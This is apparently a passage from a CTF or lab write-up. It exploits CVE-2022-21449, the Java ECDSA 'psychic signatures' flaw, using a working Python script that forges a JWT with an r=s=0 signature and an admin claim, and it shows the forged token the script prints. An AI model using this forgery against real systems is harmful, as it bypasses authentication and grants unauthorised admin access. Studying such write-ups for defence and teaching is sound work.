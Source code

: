 As seen on the image, we can notice the format of the JWT being generated, also, while searching for algorithm vulnerabilities on JWT, we can find `CVE-2022-21449` and specifically this article which talks about how to exploit this:

https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/

After reading the post, we can automate the process of creating the `JWT` with python, you can use the following code:

```python
import base64
import json

def base64url_encode(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('utf-8')

# JWT Header (ES256 - ECDSA with P-256 and SHA-256)
header = {
    "alg": "ES256",
    "typ": "JWT"
}

# Payload with UPN and groups
payload = {
    "upn": "hydra",
    "groups": ["user"],
    "admin": True,
}

# Encode both as base64url (no padding)
header_b64 = base64url_encode(json.dumps(header).encode())
payload_b64 = base64url_encode(json.dumps(payload).encode())

# r = s = 0 signature, DER encoded base64url string
signature = "MAYCAQACAQA"

# Final forged JWT
jwt_forged = f"{header_b64}.{payload_b64}.{signature}"

print("[*] Forged Payload:")
print(json.dumps(payload, indent=2))
print("\n[*] Forged JWT:\n")
print(jwt_forged)
```

Let's use the script:

```python
python3 jwt.py
[*] Forged Payload:
{
  "upn": "hydra",
  "groups": [
    "user"
  ],
  "admin": true
}

[*] Forged JWT:

eyJhbGciOiAiRVMyNTYiLCAidHlwIjogIkpXVCJ9.eyJ1cG4iOiAiaHlkcmEiLCAiZ3JvdXBzIjogWyJ1c2VyIl0sICJhZG1pbiI6IHRydWV9.MAYCAQACAQA
```
